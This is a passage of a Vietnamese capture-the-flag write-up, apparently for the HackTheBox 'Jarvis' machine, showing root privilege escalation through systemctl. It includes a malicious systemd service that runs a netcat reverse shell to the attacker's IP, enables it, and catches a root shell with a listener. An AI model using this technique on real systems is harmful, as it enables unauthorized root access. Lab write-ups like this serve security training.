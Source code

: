 > **Lệnh systemctl** là công cụ quản lý dịch vụ trong [systemd](https://bkhost.vn/blog/huong-dan-su-dung-systemd/). Nó cho phép quản lý các dịch vụ, tiến trình và các mô-đun khác trong hệ thống. Lệnh systemctl có thể được sử dụng để khởi động, dừng, khởi động lại và kiểm tra trạng thái của các dịch vụ. Các tính năng chính của lệnh systemctl bao gồm:
> 
> - Khởi động, dừng và khởi động lại các dịch vụ.
> - Kiểm tra trạng thái của các dịch vụ.
> - Xem các thông tin chi tiết về các dịch vụ.
> - Quản lý các file cấu hình dịch vụ.

Ở trang này [`systemctl | GTFOBins`](https://gtfobins.github.io/gtfobins/systemctl/) cho chúng ta ví dụ về cách leo quyền vi `systemctl`

![24.png](img/24.png)

```bash
pepper@jarvis:/tmp$ cat  tmp.M8THt6Ob5T.service
[Service]
Type=oneshot
ExecStart=/bin/sh -c "nc your_ip 9003 -e /bin/bash"
[Install]
WantedBy=multi-user.target
pepper@jarvis:/tmp$ mv tmp.M8THt6Ob5T.service /home/pepper/shell.service
pepper@jarvis:/tmp$ cd /home/pepper
pepper@jarvis:~$ ls
Web  shell.service  user.txt
pepper@jarvis:~$ systemctl enable --now /home/pepper/shell.service
systemctl enable --now /home/pepper/shell.service
Created symlink /etc/systemd/system/multi-user.target.wants/shell.service -> /home/pepper/shell.service.
Created symlink /etc/systemd/system/shell.service -> /home/pepper/shell.service.
```

Sau khi mình tạo một file service như trên thì đổi tên và chuyển nó tới path `pepper` và thực hiện kích hoạt service ngay lập tức.

Ở phía máy chúng ta sẽ tiếp tục dùng `nc` để nhận kết nối từ server nạn nhân như ở phía dưới:

```shell
└─$ nc -lvnp 9003
listening on [any] 9003 ...
connect to [10.10.14.35] from (UNKNOWN) [10.129.229.137] 41586
python -c 'import pty;pty.spawn("bash")'
root@jarvis:/# ls
ls
bin   home            lib32       mnt   run   tmp      vmlinuz.old
boot  initrd.img      lib64       opt   sbin  usr
dev   initrd.img.old  lost+found  proc  srv   var
etc   lib             media       root  sys   vmlinuz
root@jarvis:/# cd /root
cd /root
root@jarvis:/root# cat root.txt
cat root.txt
```